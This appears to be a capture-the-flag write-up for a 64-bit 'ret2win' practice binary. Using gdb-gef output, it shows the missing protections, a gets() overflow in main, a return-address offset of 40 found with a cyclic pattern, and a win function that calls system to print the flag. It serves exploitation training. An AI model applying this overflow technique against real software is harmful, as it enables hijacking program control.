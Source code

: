 ---------------



# Security on binaries:-
```r
gef➤  checksec
[+] checksec for '/home/robin/Pwn/0x01/ret2win'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial


---------
```


So, everything is NO except NX which means we cannot execute anything from stack, so this means we need to redirect the flow of instruction to the LIBC file(from where all the instructions like printf, gets etc. gets called) or we use any symbols from the binary itself to redirect the instruction flow by overwriting EIP/RIP.


#  Reverse Engineering 

------------------
Binary is not strippped which means debugging symbols are present:-

```r
==============================

file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=aeae454a388c61539b3af41690a7aa437bd8444d, not stripped
```


# Disassembling main function

```r
gef➤  disas main
Dump of assembler code for function main:
   0x000000000040058f <+0>:	push   rbp
   0x0000000000400590 <+1>:	mov    rbp,rsp
   0x0000000000400593 <+4>:	sub    rsp,0x20
   0x0000000000400597 <+8>:	lea    rdi,[rip+0xb8]        # 0x400656
   0x000000000040059e <+15>:	mov    eax,0x0
   0x00000000004005a3 <+20>:	call   0x400470 <printf@plt>
   0x00000000004005a8 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005ac <+29>:	mov    rdi,rax
   0x00000000004005af <+32>:	mov    eax,0x0
   0x00000000004005b4 <+37>:	call   0x400480 <gets@plt>
   0x00000000004005b9 <+42>:	mov    eax,0x0
   0x00000000004005be <+47>:	leave  
   0x00000000004005bf <+48>:	ret    
End of assembler dump.
==============================
```


It takes input from gets which is vulnerable to more input unless a new line encountered.


#  Finding offset 

Using gdb-gef:-

```r
===========================
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/robin/Pwn/0x01/ret2win 
Tell me your name: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]




─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005b4 <main+37>        call   0x400480 <gets@plt>
     0x4005b9 <main+42>        mov    eax, 0x0
     0x4005be <main+47>        leave  
 →   0x4005bf <main+48>        ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win", stopped, reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005bf → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00000000004005bf in main ()
gef➤  x/s $rsp
0x7fffffffdd18:	"faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
gef➤  pattern search faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Searching 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
[+] Found at offset 40 (big-endian search) 
gef➤  x/xg $rsp
0x7fffffffdd18:	0x6161616161616166
gef➤  pattern search 0x6161616161616166
[+] Searching '0x6161616161616166'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 


===================================
```

In x64 it segfaults at ret, since ret is present at the top of the stack, if we can overwrite the that address of stack where ret is we will know the exact characters offset to which we need to overwrite the return pointer, so we need to check rsp offset which will be same for RIP

Now, let's see the functions:-



```r
All defined functions:

Non-debugging symbols:
0x0000000000400438  _init
0x0000000000400460  system@plt
0x0000000000400470  printf@plt
0x0000000000400480  gets@plt
0x0000000000400490  _start
0x00000000004004c0  _dl_relocate_static_pie
0x00000000004004d0  deregister_tm_clones
0x0000000000400500  register_tm_clones
0x0000000000400540  __do_global_dtors_aux
0x0000000000400570  frame_dummy
0x0000000000400577  win
0x000000000040058f  main
0x00000000004005c0  __libc_csu_init
0x0000000000400630  __libc_csu_fini
0x0000000000400634  _fini
```


Let's check win function:-

```r
gef➤  disas win
Dump of assembler code for function win:
   0x0000000000400577 <+0>:	push   rbp
   0x0000000000400578 <+1>:	mov    rbp,rsp
   0x000000000040057b <+4>:	lea    rdi,[rip+0xc2]        # 0x400644
   0x0000000000400582 <+11>:	mov    eax,0x0
   0x0000000000400587 <+16>:	call   0x400460 <system@plt>
   0x000000000040058c <+21>:	nop
   0x000000000040058d <+22>:	pop    rbp
   0x000000000040058e <+23>:	ret    
End of assembler dump.
gef➤  x/s 0x400644
0x400644:	"/bin/cat flag.txt"
gef➤  
```


So, it cats the flag, run the script :)


